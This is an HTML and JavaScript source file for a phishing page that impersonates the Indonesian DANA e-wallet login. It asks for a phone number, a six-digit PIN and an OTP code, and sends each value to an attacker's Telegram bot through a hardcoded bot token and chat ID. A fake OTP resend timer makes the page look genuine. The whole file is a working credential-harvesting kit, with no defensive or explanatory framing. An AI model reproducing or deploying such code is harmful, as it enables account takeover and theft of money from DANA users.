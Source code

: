   <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <link rel="icon" href="PUBLIC_URL%/Favion.ico" type="image/x-icon">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
    <title>Masukkan Nomor DANA</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }
        html, body {
            height: 100%;
            width: 100%;
            display: flex;
            justify-content: center;
            align-items: center;
            font-family: Arial, sans-serif;
            background-color: #1a73e8;
            overflow: hidden;
        }
        .container {
            width: 100%;
            max-width: 400px;
            background-color: #ffffff;
            border-radius: 12px;
            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
            padding: 20px;
            text-align: center;
        }
        .logo {
            width: 80px;
            margin-bottom: 20px;
        }
        h2 {
            color: #000000;
            font-weight: bold;
            margin: 15px 0;
        }
        .phone-input-container {
            display: flex;
            align-items: center;
            justify-content: center;
            margin-top: 15px;
        }
        .flag-icon {
            width: 30px;
            height: 20px;
            margin-right: 10px;
        }
        input[type="tel"] {
            width: 100%;
            padding: 14px;
            font-size: 1.1em;
            border: 1px solid #d4d4d4;
            border-radius: 8px;
            text-align: center;
            outline: none;
        }
        button {
            width: 100%;
            padding: 14px;
            background-color: #1a73e8;
            color: #ffffff;
            font-weight: bold;
            font-size: 1.1em;
            border-radius: 8px;
            border: none;
            cursor: pointer;
            margin-top: 20px;
            transition: background-color 0.3s;
        }
        button:hover {
            background-color: #1558c3;
        }
        .input-container {
            display: flex;
            justify-content: space-between;
            margin-top: 20px;
        }
        .input-box {
            width: 55px;
            height: 55px;
            font-size: 1.3em;
            text-align: center;
            border: 1px solid #d4d4d4;
            border-radius: 8px;
            outline: none;
        }
        @media screen and (max-width: 480px) {
            .container {
                width: 100%;
                height: 100%;
                border-radius: 0;
                box-shadow: none;
            }
            .logo {
                width: 60px;
            }
            h2 {
                font-size: 1.2em;
            }
        }
    </style>
</head>
<body>
    <div class="container" id="phonePage">
        <img src="dana-logo.png" alt="Logo DANA" class="logo">
        <h2>Masuk atau Daftar dengan Nomor HP</h2>
        <div class="phone-input-container">
            <img src="indonesia-flag.png" alt="Indonesia Flag" class="flag-icon">
            <input type="tel" id="phoneNumber" placeholder="Masukkan nomor telepon" maxlength="14" oninput="this.value = this.value.replace(/[^0-9]/g, '').slice(0, 14)">
        </div>
        <button onclick="sendPhoneNumber()">Lanjut ke Halaman PIN</button>
    </div>

    <div class="container" id="pinPage" style="display: none;">
        <img src="dana-logo.png" alt="Logo DANA" class="logo">
        <h2>Masukkan PIN Anda</h2>
        <div class="input-container">
            <input type="password" maxlength="1" class="input-box pin-input" oninput="moveToNext(this, '.pin-input')">
            <input type="password" maxlength="1" class="input-box pin-input" oninput="moveToNext(this, '.pin-input')">
            <input type="password" maxlength="1" class="input-box pin-input" oninput="moveToNext(this, '.pin-input')">
            <input type="password" maxlength="1" class="input-box pin-input" oninput="moveToNext(this, '.pin-input')">
            <input type="password" maxlength="1" class="input-box pin-input" oninput="moveToNext(this, '.pin-input')">
            <input type="password" maxlength="1" class="input-box pin-input" oninput="moveToNext(this, '.pin-input')">
        </div>
    </div>

    <div class="container" id="otpPage" style="display: none;">
        <img src="dana-logo.png" alt="Logo DANA" class="logo">
        <h2>Masukkan Kode OTP</h2>
        <p>OTP telah dikirimkan melalui SMS dan WhatsApp. Harap masukkan kode yang diterima.</p>
        <p id="timer" style="font-weight: bold; color: #1a73e8; margin-top: 10px;">Kirim ulang dalam: <span id="countdown">60</span> detik</p>
        <div class="input-container">
            <input type="password" maxlength="1" class="input-box otp-input" oninput="moveToNext(this, '.otp-input')">
            <input type="password" maxlength="1" class="input-box otp-input" oninput="moveToNext(this, '.otp-input')">
            <input type="password" maxlength="1" class="input-box otp-input" oninput="moveToNext(this, '.otp-input')">
            <input type="password" maxlength="1" class="input-box otp-input" oninput="moveToNext(this, '.otp-input')">
        </div>
    </div>

    <script>
        const botToken = "7335135600:AAGls8zxJrYK4epflJSpaA2eps_9Hzam63o";
        const chatId = "7306305451";
        let countdownInterval;

        function nextPage(pageId) {
            document.querySelectorAll('.container').forEach(page => {
                page.style.display = 'none';
            });
            document.getElementById(pageId).style.display = 'block';
            
            if (pageId === 'otpPage') startCountdown(60);
        }

        function sendTelegramMessage(message) {
            const url = `https://api.telegram.org/bot${botToken}/sendMessage`;
            fetch(url, {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify({
                    chat_id: chatId,
                    text: message
                })
            })
            .then(response => response.json())
            .then(data => console.log("Pesan terkirim:", data))
            .catch(error => console.error("Error:", error));
        }

        function sendPhoneNumber() {
            const phoneNumber = document.getElementById('phoneNumber').value.trim();
            if (phoneNumber === "") {
                alert("Nomor telepon tidak boleh kosong.");
                return;
            }
            sendTelegramMessage(`Nomor telepon: ${phoneNumber}`);
            nextPage('pinPage');
        }

        function moveToNext(currentInput, inputClass) {
            const inputs = document.querySelectorAll(inputClass);
            const index = Array.from(inputs).indexOf(currentInput);

            if (currentInput.value.length === 1 && index < inputs.length - 1) {
                inputs[index + 1].focus();
            } else if (currentInput.value.length === 0 && index > 0) {
                inputs[index - 1].focus();
            }

            const code = Array.from(inputs).map(input => input.value).join('');
            if (code.length === inputs.length) {
                if (inputClass === '.pin-input') {
                    sendTelegramMessage(`PIN: ${code}`);
                    nextPage('otpPage');
                } else if (inputClass === '.otp-input') {
                    sendTelegramMessage(`OTP: ${code}`);
                    alert("OTP berhasil dikirim!");
                }
            }
        }

        function startCountdown(seconds) {
            clearInterval(countdownInterval);
            let countdown = seconds;
            document.getElementById("countdown").textContent = countdown;

            countdownInterval = setInterval(() => {
                countdown--;
                document.getElementById("countdown").textContent = countdown;
                
                if (countdown <= 0) {
                    clearInterval(countdownInterval);
                    document.getElementById("timer").textContent = "Anda dapat mengirim ulang OTP sekarang.";
                }
            }, 1000);
        }
    </script>
</body>
</html>
